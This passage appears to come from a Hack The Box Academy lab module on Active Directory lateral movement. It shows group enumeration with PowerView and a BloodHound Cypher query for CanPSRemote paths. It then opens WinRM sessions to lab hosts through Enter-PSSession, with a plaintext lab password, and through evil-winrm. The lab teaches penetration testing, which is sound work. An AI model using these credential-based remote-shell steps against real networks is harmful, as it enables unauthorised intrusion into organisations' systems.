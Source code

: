 **Enumerating the Remote Management Users Group**

```powershell-session
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Management Users
MemberName   : INLANEFREIGHT\forend
SID          : S-1-5-21-3842939050-3880317879-2865463114-5614
IsGroup      : False
IsDomain     : UNKNOWN
```

We can also utilize this custom `Cypher query` in BloodHound to hunt for users with this type of access. This can be done by pasting the query into the `Raw Query` box at the bottom of the screen and hitting enter.

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

**Using the Cypher Query in BloodHound**

![image](https://academy.hackthebox.com/storage/modules/143/canpsremote\_bh\_cypherq.png)

We could also add this as a custom query to our BloodHound installation, so it's always available to us.

**Adding the Cypher Query as a Custom Query in BloodHound**

![image](https://academy.hackthebox.com/storage/modules/143/user\_defined\_query.png)

We can use the [Enter-PSSession](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.2) cmdlet using PowerShell from a Windows host.

**Establishing WinRM Session from Windows**

```powershell-session
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred

[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> hostname
ACADEMY-EA-DB01
[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb> 
```

From our Linux attack host, we can use the tool [evil-winrm](https://github.com/Hackplayers/evil-winrm) to connect.

**Connecting to a Target with Evil-WinRM and Valid Credentials**

```shell-session
carbonlky@htb[/htb]$ evil-winrm -i 10.129.201.234 -u forend

Enter Password: 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
```